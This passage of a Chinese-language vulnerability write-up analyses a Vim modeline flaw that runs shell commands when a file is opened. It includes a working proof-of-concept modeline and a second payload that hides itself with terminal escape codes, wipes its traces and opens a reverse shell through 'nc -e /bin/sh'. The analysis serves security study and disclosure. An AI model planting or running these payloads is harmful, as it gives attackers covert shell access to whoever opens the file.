 因此，可以构造PoC如下：

```
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source! %"):fdl=0:fdt="
```

保存成文件`poc.txt`，用Vim打开，命令`uname -a`将会被执行。



## PoC分析

### <a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C"></a>命令执行

```
# poc.txt
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source! %"):fdl=0:fdt="
```

打开poc.txt时，Vim会在首行寻找modeline，从vi:处开始匹配，忽略前面的字符，解析出的modeline表达式为：

`vi:fen:fdm=expr:fde=assert_fails("source! %"):fdl=0:fdt=`

modeline中的配置项(option settings)通过`:`分隔，vi后面的每一项都会当做`:set`的参数在`normal`模式下被运行。

这里的一系列配置都是有关于代码折叠的，让我们逐个解析配置项:
<li>
`fen`: 当值为off时，所有的代码折叠都被打开，默认是off</li>
<li>
`fdm=expr`: 产生折叠的方式，可能的值有manual, indent, expr, marker, syntax, diff。 其中expr表示将由’foldexpr’的值来给出某一行的折叠level</li>
<li>
`fde=assert_fails("source! %")`: fde是foldexpr的缩写，功能见上一条；source!命令前文已经提过，这里的%是指当前文件；assert_fails用于执行命令并处理错误信息，这里我们只用于执行命令。</li>
<li>
`fdl=0`: 折叠的程度，设置为0时会关闭所有的折叠，默认是0</li>
<li>
`fdt`: 被关闭的折叠处显示的字符串,默认是”foldtext()”</li>
综合下来，这个modeline会让Vim执行`:source! poc.txt`，让我们来看会发生什么。

`poc.txt`中只有一行，相当于在Vim normal mode中运行这一行，`:!xxx`表示在shell中执行`xxx`命令。

所以，下面的命令会在shell中被执行：

```
uname -a||" vi:fen:fdm=expr:fde=assert_fails("source!\%"):fdl=0:fdt="
```

`||`表示只有在前一个命令执行失败后才会执行后一个命令，在这里`uname -a`会执行成功，`||`后面的字符串被忽略，所以PoC到这里就执行成功了。

### <a class="reference-link" name="%E5%8F%8D%E5%BC%B9shell"></a>反弹shell

漏洞作者给出了另一个PoC，可以反弹一个shell, 利用了转义字符使得恶意代码在终端不可见，还在PoC执行结束后重写了文件使得痕迹被彻底清除。

```
# 在另一终端窗口运行nc -vlp 9999
# shell.txt 
x1b[?7lx1bSNothing here.x1b:silent! w | call system('nohup nc 127.0.0.1 9999 -e /bin/sh &amp;') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails('set\ fde=x\ \|\ source\!\ \%') fdl=0: x16x1b[1Gx16x1b[KNothing here."x16x1b[D n
```
